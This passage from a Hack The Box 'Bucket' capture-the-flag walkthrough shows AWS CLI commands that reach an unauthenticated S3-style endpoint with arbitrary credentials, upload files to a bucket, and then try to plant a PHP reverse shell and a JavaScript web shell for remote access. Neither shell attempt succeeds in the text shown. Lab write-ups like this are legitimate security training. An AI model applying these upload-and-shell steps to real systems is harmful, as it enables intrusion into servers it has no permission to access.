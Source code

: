 Progress! I ran `aws configure` to set some credentials. I initially tried with empty credentials.

```bash
┌──(mac㉿kali)-[~/Documents/HTB/bucket]
└─$ aws configure
AWS Access Key ID [None]:
AWS Secret Access Key [None]:
Default region name [None]: us-west-1
Default output format [None]: json
┌──(mac㉿kali)-[~/Documents/HTB/bucket]
└─$ aws s3 cp ello.html s3://s3.bucket.htb
upload failed: ./ello.html to s3://s3.bucket.htb/ello.html An error occurred (InvalidAccessKeyId) when calling the PutObject operation: The AWS Access Key Id you provided does not exist in our records.
```

There was still a problem with our code, and it was missing one key component. After some prompting to think about an option that might mean the request no longer requires credentials, I remembered about the 'Endpoint URL' parameter in the shell.

I set the equivalent CLI parameter, `--endpoint-url`. With empty creds I got a credential error again, but after setting some arbitrary credentials we got a hit!

```bash
┌──(mac㉿kali)-[~/Documents/HTB/bucket]
└─$ aws configure
AWS Access Key ID [None]: arbitrary
AWS Secret Access Key [None]: arbitrary
Default region name [us-west-1]:
Default output format [json]:
┌──(mac㉿kali)-[~/Documents/HTB/bucket]
└─$ aws s3 ls --endpoint-url http://s3.bucket.htb
2021-04-28 14:41:03 adserver
```

We can now upload a test file to the adserver directory, and visit it in the browser:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/bucket/uploads]
└─$ aws s3 cp test.txt s3://adserver/images/test.txt --endpoint-url http://s3.bucket.htb
upload: ./test.txt to s3://adserver/images/test.txt
```

![[Pasted image 20210428143658.png]]

Awesome!

Now we can try a PHP shell. I tried the shell located at `/usr/share/webshells/php/php-reverse-shell.php`, uploading it with `aws s3 cp phprs.php s3://adserver/images/test.php --endpoint-url http://s3.bucket.htb` and then visiting `http://s3.bucket.htb/adserver/images/test.php`

I didn't get a hit to my listener. I tried a few payloads here, including a `.html` file with a `<?php ?>` section, which revealed that PHP was not being rendered on the page.

I then tried an alternative Javascript web shell, downloaded from [https://gist.github.com/substack/7349970](https://gist.github.com/substack/7349970). However, this also didn't work.
